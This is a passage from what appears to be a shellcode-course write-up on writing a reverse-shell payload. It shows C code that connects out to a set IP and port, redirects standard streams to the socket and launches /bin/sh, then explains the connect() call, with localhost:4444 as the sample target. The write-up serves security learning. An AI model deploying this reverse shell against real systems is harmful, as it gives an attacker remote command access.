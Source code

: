 
	memset(&peer, 0, sizeof(struct sockaddr));

	peer.sin_family 	= AF_INET;
	peer.sin_port 	= htons(DPORT);
	peer.sin_addr.s_addr = inet_addr(IP);

	sfd = socket(AF_INET, SOCK_STREAM, 0);
	ret = connect(sfd, (const struct sockaddr *)&peer, sizeof(struct sockaddr_in));

	if ( ret == 0 ) {
		dup2(sfd, 0);
		dup2(sfd, 1);
		dup2(sfd, 2);
		execve((const char *)"/bin/sh", NULL, NULL);
		return 0;
	}

	return -ret;
}


{% endhighlight %}

## PoC analysis

For all consideration and analysis about socket(), dup2() and execve() system
call please make sure to read the write-up for the [first
assignement](https://codiceinsicuro.it/slae/assignment-1-create-a-bind-shellcode/),
about creating a bind shell shellcode.

In this assignement our protagonist is the connect() and a little trick to
handle null bytes in our shellcode.

### connect()

All the lights are on the connect call in this assignment. The connect() will
create a link on the socket descriptor obtained by socket() to the destination
IP address and destination TCP port specifie in the (struct sockaddr *) data
structure.

{%highlight c%}

memset(&peer, 0, sizeof(struct sockaddr));

peer.sin_family 	= AF_INET;
peer.sin_port 	= htons(DPORT);
peer.sin_addr.s_addr = inet_addr(IP);

sfd = socket(AF_INET, SOCK_STREAM, 0);
ret = connect(sfd, (const struct sockaddr *)&peer, sizeof(struct sockaddr_in));

{%endhighlight%}

In our sample IP address is "127.0.0.1", localhost and the destination port is 4444.
Translating into assembler, there is no real magic. The system call we need is
362, and we need to push into the stack, the IP address an the TCP port in
network byte order.
